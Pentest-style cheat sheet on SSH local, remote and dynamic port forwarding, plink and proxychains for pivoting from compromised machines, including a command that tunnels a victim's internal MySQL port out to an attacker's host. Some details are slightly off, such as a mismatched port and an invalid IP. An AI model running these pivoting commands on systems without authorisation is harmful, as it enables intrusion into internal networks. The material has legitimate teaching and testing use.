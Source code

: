 # SSH Tunneling/Forwarding

## Check HTTPTunnel

* [https://github.com/larsbrinkhoff/httptunnel](https://github.com/larsbrinkhoff/httptunnel)
* first, create a local port forward between compromised machine and attacking machine
* second, create HTTPTunnel

## Ipconfig

* looking for machines that have at least THREE network interfaces (loopback, eth0, and eth1)
* these machines are connected to other networks, so use them to pivot

### Windows

```bash
ipconfig /all
route print
arp -a
```

### Linux

```bash
ifconfig
ifconfig -a
arp -a
```

## SSH Tunneling - Port forwarding on SSH

### Use Cases

* encrypt traffic that uses unencrypted protocols, like VNC, IMAP, IRC.
* on a public network and want to encrypt all your http traffic
* want to bypass firewall rules

### Local Port Forwarding

* make Facebook available on address localhost:8080

```bash
ssh -L 8080:www.facebook.com:80 localhost
```

* you can also forward ports like this

```bash
ssh username@<remote-machine> -L localport:target-ip:target-port
```

```bash
ssh [username@192.168.1.111](mailto:username@192.168.1.111) -L 5000:192.168.1.222:5000
```

now this port will be available on the localhost, go to

```bash
nc localhost:10000
```

### Remote Port Forwarding

* imagine that a compromised machine, and that machine has MYSQL running but it is only accessible for localhost
* can't access it because you have a really crappy shell, just forward that port to our attacking machine
* the steps are as following

```bash
# basic example
ssh <gateway> -R <remote port to bind>:<local host>:<local port>

#detailed example
# opens up port 1111 on Kali to point to port 22
# next, opens 1337 on Kali to point to 3306
ssh -R 1111:10.10.10.10:22 -R 1337:10.10.10.10:3306 kali@10.11.11.11

# if you do not have fully interactive shell
# use this to avoid prompts
ssh -R 1111:10.10.10.10:22 -R 1337:10.10.10.10:3306 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" kali@10.11.11.11 -i /tmp/id_rsa 
kali@10.11.0.4
```

* by the way, plink is a ssh-client for windows that can be run from the terminal
* the ip of the attacking machine is 111.111.111.111
* Step 1: on our compromised machine

```bash
plink.exe -l root -pw mysecretpassword 111.111.111.111 -R 3307:127.0.0.1:3306
```

* Step 2: check netstat on our attacking machine, should see something like this

```bash
tcp        0      0 127.0.0.1:3307          0.0.0.0:*               LISTEN      19392/sshd: root@pt
```

* that means that we can connect to that port on the attacking machine from the attacking machine
* Step 3: connect using the following command

```bash
mysql -u root -p -h 127.0.0.1 --port=3307
```

### Dynamic port forwarding

* can be used to dynamically forward all traffic from a specific application
* with remote and local port forwarding you are only forwarding a single port
* can be a hassle if the target machine has 10 ports open that you want to connect to
* instead we can use a dynamic port forwarding technique
* set up the tunnel like this
* after it is set up do not run any commands in that session
* connect to the machine we want to pivot from

```bash
ssh -D 9050 [user@192.168.1.111](mailto:user@192.168.1.111)
```

* since proxychains uses 9050 by default (the default port for tor) configuring Proxychains is not needed
* to change the port do that in /etc/proxychains.conf

```bash
proxychains nc 192.168.2.222 21
```

* to supress all the logs from Proxychains, configure it in the config file

## Tunnel all HTTP/HTTPS Traffic Through SSH

* need two machines
* Machine1 - 111.111.1111.111 - the server that works as the proxy
* Machine2 - the computer with the web browser
* check out what the public IP address is, so that we know the IP address before and after so we can verify that it works
* on Machine2 we run

```bash
ssh -D localhost:9999 [root@111.111.111.111](mailto:root@111.111.111.111)
#or run with -N flag
ssh -D localhost:9999 [root@111.111.111.111](mailto:root@111.111.111.111) -N
```

* now go to

```bash
Firefox/settings/advanced/network and SOCKS 
add 127.0.0.1 and port 9999
```

* notice that this setup probably leaks DNS, so don't use it if  opsec is needed
* to fix the DNS-leak
* go to

```bash
about:config in firefox #(in the addressbar) 
#then look for 
network.proxy.socks_remote_dns #and switch it to TRUE
```

* now you can check [https://ipleak.net/](https://ipleak.net/)
* it still says that we have WebRTC leaks, in order to solve this go to

```bash
about:config #and set the following to FALSE: 
media.peerconnection.enabled
```

## References

* This is a good video-explanation
* [https://www.youtube.com/watch?v=c0XiaNAkjJA](https://www.youtube.com/watch?v=c0XiaNAkjJA)
* [https://www.offensive-security.com/metasploit-unleashed/pivoting/](https://www.offensive-security.com/metasploit-unleashed/pivoting/)
* [http://ways2hack.com/how-to-do-pivoting-attack/](http://ways2hack.com/how-to-do-pivoting-attack/)
